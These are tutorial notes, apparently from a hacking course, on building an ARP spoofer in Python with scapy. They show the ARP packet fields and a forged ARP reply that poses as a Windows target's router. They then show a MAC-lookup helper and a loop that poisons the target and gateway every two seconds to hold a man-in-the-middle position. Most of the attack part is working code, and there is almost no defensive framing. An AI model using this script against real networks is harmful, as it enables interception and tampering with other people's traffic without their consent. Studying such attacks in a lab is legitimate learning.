 ### Creating an ARP Spoofer
ARP Response
* in the last section, we learned about ARP requests
* now, we'll learn about ARP responses
* let's have another look at the ARP class from scapy
	```
	>>> import scapy.all as scapy
	>>> scapy.ls(scapy.ARP)
	hwtype     : XShortField                         = (1)
	ptype      : XShortEnumField                     = (2048)
	hwlen      : FieldLenField                       = (None)
	plen       : FieldLenField                       = (None)
	op         : ShortEnumField                      = (1)		# 1 = request; 2 = response
	hwsrc      : MultipleTypeField                   = (None)	# source MAC field
	psrc       : MultipleTypeField                   = (None)	# source IP field
	hwdst      : MultipleTypeField                   = (None)	# target MAC  field
	pdst       : MultipleTypeField                   = (None)	# target IP field
	```
	
Step 1: Fooling Target into thinking we're the Router
* build a ARP response for re-directing the flow of packets
	* for 
	```python
	packet = scapy.ARP(
    op=2,   					# ARP response
    pdst="192.168.238.148", 	# windows target ip
    hwdst="00:0c:29:84:ff:b6",  # windows target mac
    psrc="192.168.238.2",   	# pretening we're the router
	)
	scapy.send(packet)
	```

Step 2: Fooling Router into thinking we're the Target
* build a ARP response for re-directing the flow of packets
* since we know the target's IP address, we can user our network-scanner from the previous section to find the associated MAC address
	* import the `scan()` function and remodel it to return a single MAC address
	```python
	from network_scanner import scan
	def get_mac(ip: str) -> str:
    """Scans for an IP address and returns it MAC address"""
		return scan(ip=ip)[0]["mac"]
	```
* because we need to play to roles at once, we need to call the spoof function for the target and for the gateway 

 Step 3: Staying in the Loop
 * if we run the spoof command once, the next packet send over the network will reset the addresses
 * we need to uphold the spoofing for as long as we want to stay the man in the middle
 * implement a `while` loop
 	```python
	def main():
    while True:
        spoof(target_ip=TARGET_IP, spoof_ip=SPOOF_IP)
        spoof(target_ip=SPOOF_IP, spoof_ip=TARGET_IP)
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        print(f"{timestamp} - Send 2 Packets", end="\r")
        time.sleep(2)
	```
	* `print(..., end="\r")` will make the print-statement write over the same line, keeping output from overflowing the terminal
